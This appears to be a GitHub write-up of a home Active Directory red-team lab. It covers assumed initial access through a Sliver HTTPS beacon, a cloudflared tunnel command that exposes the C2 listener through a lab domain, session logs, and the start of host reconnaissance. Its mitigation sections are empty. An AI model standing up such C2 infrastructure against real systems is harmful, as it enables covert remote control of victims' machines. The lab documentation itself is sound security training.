     *   LAB-DC01: Host-only (No direct internet access)
    *   LAB-WIN10: NAT (Internet access for C2) & Host-only (Domain communication)
    *   Attacker/Exegol: Access via Tunnel
      
    ![Network Diagram](https://github.com/user-attachments/assets/c80fcf65-f399-4d11-ba76-017ee3482898)

## ⚔️ Attack Narrative & Methodology

### 🚀 Phase 1 : Initial Access & C2 Establishment
*   **Initial Access:** Assumed. A default Sliver HTTPS beacon was executed on `LAB-WIN10` in the context of `lab\t.howard`. Defender/AV was disabled for lab focus.
*   **C2 Infrastructure:**
    *   Sliver HTTPS listener configured and Implant generated:
        ![Sliver HTTPS Listener Setup and Implant Generation](https://github.com/user-attachments/assets/31230ccd-0f8f-4ab1-aaae-e0a3b288ed68)

    *   Cloudflare Tunnel (`cloudflared`) established on the Exegol container, mapping `https://c2.testlab.best` to the local Sliver listener (`https://localhost:443` from Exegol's perspective).
        ```bash
        cloudflared tunnel run --token <omitted>
        ```

    *   Session started.
         ```bash
         Session 7f623d24 ABSENT_PRESSROOM - tcp([::1]:53162)-><Victim Public IP> (LAB-WIN10) - windows/amd64 - Sun, 01 Jun 2025 04:34:15 BST
         ```
     
<details><summary><strong>My Thoughts & Observations (Phase 1)</strong></summary></details>

<details><summary><strong>Mitigation & Detection Considerations (Phase 1)</strong></summary></details>

### 🕵️ Phase 2: Local Operations, Credential Access & Pivot Establishment on `LAB-WIN10`

With the initial session active as `t.howard`, the immediate objective is to understand the local environment. We want to obtain credentials and/or escalate privileges for broader domain interaction and establish pivots to allow tools on the back on our Exegol host to reach internal domain services.

*   **A. Initial Host Reconnaissance & Privilege Assessment (Sliver):**
    Basic situational awareness on `LAB-WIN10`.
    <details>
    <summary><code>sliver (ABSENT_PRESSROOM) > info</code> — Click to expand</summary>

    ```sliver
    Name: ABSENT_PRESSROOM
    Hostname: LAB-WIN10
    UUID: 67d24d56-604d-1c53-da47-68e224cbf9db
    Username: LAB\t.howard  # A quick highlight to the domain name
    UID: S-1-5-21-2722926128-310879818-2353593629-1120
    GID: S-1-5-21-2722926128-310879818-2353593629-513
    PID: 64
    OS: windows
    Version: 10 build 17763 x86_64
    Locale: en-GB
    Arch: amd64
    Active C2: https://c2.testlab.best:443 <!-- Assuming consistency fix here -->
    Remote Address: tcp([::1]:60772)-><Victim Public IP>
    Proxy URL:
    Reconnect Interval: 1m0s
    First Contact: Sun Jun  1 05:32:39 BST 2025 (1h15m43s ago)
    Last Checkin: Sun Jun  1 06:48:21 BST 2025 (1s ago)
    ```
    </details>
